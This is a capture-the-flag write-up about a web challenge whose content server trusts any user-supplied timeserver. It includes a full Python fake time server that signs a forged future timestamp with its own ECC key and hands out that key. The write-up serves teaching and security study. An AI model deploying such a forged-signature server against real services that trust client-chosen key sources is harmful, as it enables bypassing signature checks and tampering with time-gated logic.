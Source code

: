 ```python
httpd.serve_forever()

```

At first, I saw this challenge and got immediately scared because I thought that this was going to be a crypto challenge. I thought that you had to somehow somehow break ECC or somehow get the private key. I looked at a lot of solutions and writeups for this, and slowly I realized how dumb this was. That was until I took another look at content-server instead of focusing at time-server, and then it clicked.

![Screenshot 2024-06-24 at 07.58.02](https://hackmd.io/_uploads/ryUoEBUIC.png)

I realized that the vulnerability here is that every time you reload the website, it sends a post request to itself containing three things:

The timestamp, the signature (to prevent timestamp from being easily modified), and the timeserver. I originally thought this was restricted to the challenge's own timeserver, but no. You can specify any website as a timeserver. 

Knowing this, I immediately went and modified the time-server to make my own time-server.

```python
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
import json
import time
from datetime import datetime, timedelta
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class FakeTimeServerRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
        else:
            future_timestamp = int(time.time() + 1 * 24 * 60 * 60)
            future_timestamp_str = str(future_timestamp).encode('utf-8')
            h = SHA256.new(future_timestamp_str)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({
                'timestamp': future_timestamp_str.decode('utf-8'),
                'signature': signature.hex()
            })
            self.wfile.write(res_body.encode('utf-8'))

handler = FakeTimeServerRequestHandler
httpd = HTTPServer(('', 5001), handler)
print("Serving on port 5001...")
httpd.serve_forever()
```
